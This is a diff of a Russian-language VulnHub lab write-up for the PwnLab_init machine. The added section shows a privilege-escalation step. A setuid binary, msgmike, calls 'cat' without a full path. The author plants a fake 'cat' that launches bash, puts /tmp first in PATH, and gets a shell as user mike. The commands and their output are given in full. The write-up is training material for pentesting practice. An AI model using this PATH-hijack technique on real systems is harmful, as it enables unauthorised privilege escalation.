

Before and after one commit to 0x2d-pentest/VulnHub, a Markdown page: Lin Easy - PwnLab_init/writeup.md, the part around the change. Drawn GitHub-style; blank space fills up the shorter version.

````diff
--- a/Lin Easy - PwnLab_init/writeup.md
+++ b/Lin Easy - PwnLab_init/writeup.md
@@ -662,6 +662,36 @@ ii  gcc-4.9                       4.9.2-10                    i386         GNU C
 /usr/bin/gcc
 ```
 
+95% векторов атаки не нашлось, запускал для разных пользователей.
+У пользователя `kane` обнаружил следующее
+```bash
+╔══════════╣ Searching folders owned by me containing others files on it (limit 100)
+-rwsr-sr-x 1 mike mike 5148 Mar 17  2016 /home/kane/msgmike
+```
+
+Выполнение дало ошибку:
+```bash
+kane@pwnlab:/tmp$ /home/kane/msgmike
+/home/kane/msgmike
+cat: /home/mike/msg.txt: No such file or directory
+```
+
+Проверяю уязвимость в `$PATH` и получаю оболочку от `mike`
+```bash
+kane@pwnlab:/tmp$ echo '/bin/bash' > cat
+kane@pwnlab:/tmp$ chmod 777 cat
+kane@pwnlab:/tmp$ echo $PATH
+/usr/local/bin:/usr/bin:/bin:/usr/local/games:/usr/games
+kane@pwnlab:/tmp$ export PATH=/tmp:$PATH
+kane@pwnlab:/tmp$ echo $PATH
+/tmp:/usr/local/bin:/usr/bin:/bin:/usr/local/games:/usr/games
+kane@pwnlab:/tmp$ /home/kane/msgmike
+mike@pwnlab:/tmp$ id
+id
+uid=1002(mike) gid=1002(mike) groups=1002(mike),1003(kane)
+mike@pwnlab:/tmp$
+
+```
 
 
 ## 🏁 Флаги
````
